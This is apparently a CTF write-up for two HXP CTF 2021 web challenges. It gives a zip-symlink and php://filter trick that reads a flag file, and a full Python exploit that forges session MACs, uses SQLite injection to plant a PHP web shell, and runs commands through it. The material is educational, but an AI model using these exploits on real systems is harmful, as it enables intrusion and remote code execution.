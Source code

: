# HXP CTF 2021

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20211217-hxpctf2021/) of this writeup.**


 - [HXP CTF 2021](#hxp-ctf-2021)
   - [Web](#web)
     - [unzipper](#unzipper)
     - [shitty blog <g-emoji class="g-emoji" alias="brown_heart" fallback-src="https://github.githubassets.com/images/icons/emoji/unicode/1f90e.png">🤎</g-emoji>](#shitty-blog-)


## Web

### unzipper

Since `realpath` will not resolve `file://` or `php://`, we can create a zip with this file structure.
```
$ tree php:
php:
├── filter
│   └── resource=php:
│       └── not.txt
└── not.txt -> /flag.txt
```

`zip --symlinks -r foo.zip php:`

Then make `realpath` and `readfile` get different file with `GET /?file=php://filter/resource=php:/not.txt`.

### shitty blog 🤎

```python=
from requests import get, post
from requests.utils import unquote as decode
from requests.utils import quote as encode 
from multiprocessing import Pool, Manager
from functools import partial

target = 'http://localhost:8888'
target = 'http://65.108.176.96:8888/'
sqli_payload = encode("0;ATTACH DATABASE '/var/www/html/data/ginoah.php' AS ginoah;CREATE TABLE ginoah.pwn (dataz text);INSERT INTO ginoah.pwn (dataz) VALUES ('<?php system($_GET[cmd]); ?>garbage');//")

def collision(ses, i):
  r = get(target)
  session = decode(r.cookies['session'])
  _id, mac = session.split('|')
  if mac in ses:
    ses[mac] += 1
  else:
    ses[mac] = 1
  
def sqli(mac, ses, i):
  payload = sqli_payload.replace('garbage', str(i))
  new_session = f'{payload}|{mac}'
  r = get(target, cookies={'session': new_session})
  if len(r.text) > 0:
    ses['success'] = new_session

if __name__ == '__main__':
  manager = Manager()
  ses = manager.dict()

  col_pool = Pool()
  col_pool.map(partial(collision, ses), range(512))
  col_pool.close()
  col_pool.join()
  macs = list(filter(lambda x: x[1] > 1, ses.items()))
  if len(macs) == 0:
    print('fail finding collision in `id`, retry again')
    exit(0)

  sqli_pool = Pool()
  sqli_pool.map(partial(sqli, macs[0][0], ses), range(512))
  sqli_pool.close()
  sqli_pool.join()
  if 'success' not in ses:
    print('fail finding collision in `sqli_payload`, retry again')
    exit(0)
  
  new_session = ses['success']
  r = post(target, cookies={'session': new_session}, data={'content': 'x'})
  r = post(target, cookies={'session': new_session}, data={'delete': '1'})
  cmd = '/readflag'
  r = get(f'{target}/data/ginoah.php?cmd={cmd}', cookies={'session': new_session})
  print(r.text)
  f = open('flag.txt', 'w')
  f.write(r.text)
  f.close()
```
